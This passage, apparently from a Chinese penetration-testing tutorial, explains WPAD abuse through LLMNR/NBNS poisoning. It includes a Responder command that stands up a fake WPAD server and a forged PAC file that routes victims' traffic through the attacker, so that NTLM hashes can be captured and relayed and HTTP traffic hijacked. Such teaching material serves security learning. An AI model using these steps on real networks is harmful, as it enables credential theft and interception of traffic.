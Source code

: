 在这个过程中，主要涉及到两种攻击方式。

## LLMNR/NBNS Poison

这是早期针对 WPAD 的攻击思路。当计算机开启 “自动检测设置” 后，用户在访问网页时，首先会查询 PAC 文件的位置。假设用户的计算机网络名称为 pc.department.branch.example.com，那么浏览器将依次尝试在下列 URL 中定位 PAC 文件，以期成功在客户端的所在的域或父域中找到一个代理配置文件：

- http://wpad.department.branch.example.com/wpad.dat
- http://wpad.branch.example.com/wpad.dat
- http://wpad.example.com/wpad.dat
- http://wpad.com/wpad.dat

如果上述域名没有在域内进行专门配置的话，那么将导致 DNS 解析失败，此时客户端就会使用 LLMNR/NBNS 协议分别向局域网内发送 UDP 多播或广播请求，以查询 WPAD 服务器对应的 IP 地址。这就允许攻击者对当前网络实施 LLMNR/NBNS 投毒，并声称攻击者所控的服务器就是 WPAD 服务器。当客户端访问攻击者伪造的 WPAD 服务器时，攻击者可以诱使客户端向攻击者的服务器发起 NTLM 认证。攻击者可以截获客户端发来的 Net-NTLM Hash 并重放到其他服务，从而实现 NTLM Relay。

关于 LLMNR/NBNS 投毒的细节，请自行上网查阅相关资料，这里不再赘述。下面我对相关利用进行演示。

（1）首先在攻击者可控的服务器上启动 Responder 监听，相关命令如下。执行后，Responder 将伪造一个 WPAD 服务器。

```bash
responder -I eth0 -rPdv
```

（2）当客户端用户在访问网页时，由于 IE 浏览器默认是自动检测设置，所以首先会查询 PAC 文件的位置，如果本地 Hosts 文件和 DNS 服务器解析不到这个域名地址的话，就会转而使用 LLMNR/NBNS 协议进行解析。此时，Responder 通过 LLMNR/NBNS 投毒将 WPAD 服务器的 IP 地址指向 Responder 所在的服务器。然后，Responder 通过伪造如下 PAC 文件将代理指向 `ISAProxySrv:3141`：

```php
function FindProxyForURL(url, host){
    if ((host == "localhost") 
        || shExpMatch(host, "localhost.*") 
        ||(host == "127.0.0.1") 
        || isPlainHostName(host)) return "DIRECT"; 
    if (dnsDomainIs(host, "ProxySrv")
        ||shExpMatch(host, "(*.ProxySrv|ProxySrv)")) return "DIRECT"; 
    return 'PROXY ProxySrv:3128; PROXY ProxySrv:3141; DIRECT';}
```

（3）客户端会使用 `ProxySrv:3141` 作为代理地址，但是受害者不知道 `ProxySrv` 对应的 IP 是什么，所以会再次触发查询，Responder 将再次通过 LLMNR/NBNS 投毒进行欺骗。将 `ProxySrv` 名词所对应的地址指向 Responder 服务器本身。这样攻击者最终可以劫持客户端的 HTTP 流量，并通过在其流量中插入 XSS 向量、回复 HTTP 407 错误等方式来诱使客户端发起 NTLM 认证。
